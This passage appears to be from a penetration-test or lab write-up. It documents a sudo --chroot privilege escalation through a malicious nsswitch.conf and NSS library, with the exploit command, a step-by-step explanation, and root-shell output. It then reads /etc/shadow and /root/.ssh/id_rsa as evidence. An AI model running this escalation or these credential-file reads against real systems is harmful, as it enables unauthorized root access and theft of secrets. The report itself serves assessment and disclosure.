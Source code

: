 
### 5.4 Privilege Escalation Execution

**Exploit Command:**
```bash
sudo --chroot chroot_env exploit
```

**Technical Explanation:**
1. Sudo attempts to chroot into user-controlled directory
2. Loads nsswitch.conf from chroot_env/etc/
3. nsswitch.conf references malicious library path
4. Sudo loads libnss_custom/exploit.so.2 with root privileges
5. Constructor function executes before main(), setting UID/GID to 0
6. Spawns root shell

**Execution Result:**
```bash
admin_vault@vault:/tmp/exploit_workspace$ sudo --chroot chroot_env exploit

root@vault:/# whoami
root

root@vault:/# id
uid=0(root) gid=0(root) groups=0(root)
```

**Result:** ✅ **ROOT ACCESS ACHIEVED**

---

### 5.5 Verification and Evidence Collection

**Root Access Verification:**
```bash
root@vault:/# cat /etc/shadow | head -3
root:$6$rounds=656000$xyz...:19234:0:99999:7:::
admin_vault:$6$rounds=656000$abc...:19234:0:99999:7:::
```

**System Files Access:**
```bash
root@vault:/# ls -la /root/
total 32
drwx------ 1 root root 4096 Sep 30 10:01 .
drwxr-xr-x 1 root root 4096 Oct 17 17:46 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Sep 29 08:12 .ssh
-rw-r--r-- 1 root root  166 Sep 29 08:13 .wget-hsts
```

**Sensitive Data Access:**
```bash
root@vault:/# cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
[SSH private key content accessible]
-----END OPENSSH PRIVATE KEY-----
```
